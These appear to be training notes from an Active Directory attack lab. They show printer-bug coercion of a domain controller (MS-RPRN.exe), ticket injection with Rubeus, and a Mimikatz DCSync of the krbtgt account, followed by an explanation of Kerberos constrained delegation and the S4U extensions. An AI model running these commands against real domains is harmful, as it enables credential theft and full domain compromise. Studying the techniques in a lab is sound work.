 #### And after that run MS-RPRN.exe on the student VM:
(https://github.com/leechristensen/SpoolSample)  
```powershell
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

#### Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM: 
```powershell
.\Rubeus.exe ptt /ticket:
```

#### Once the ticket is injected, run DCSync: 
```powershell 
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# Learning Objective 17

• Find a server in dcorp domain where Unconstrained Delegation is enabled. 

•Access that server, wait for a Domain Admin to connect to that server and get Domain Admin privileges.

# Constrained Delegation

• Constrained Delegation when enabled on a service account, allows access only to specified services on specified computers as a user. 

• A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization. 

• To impersonate the user, Service for User (S4U) extension is used which provides two extensions: 

– Service for User to Self (S4U2self) - Service for User to Self (S4U2self) - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION – T2A4D UserAccountControl attribute. 

– Service for User to Proxy (S4U2proxy) - Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by msDS-AllowedToDelegateTo attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.

## Constrained Delegation with Protocol Transition

![[Pasted image 20230106213749.png]]

• A user - Joe, authenticates to the web service (running with service account websvc) using a non-Kerberos compatible authentication mechanism. 

• The web service requests a ticket from the Key Distribution Center (KDC) for Joe's account without supplying a password, as the websvc account. 
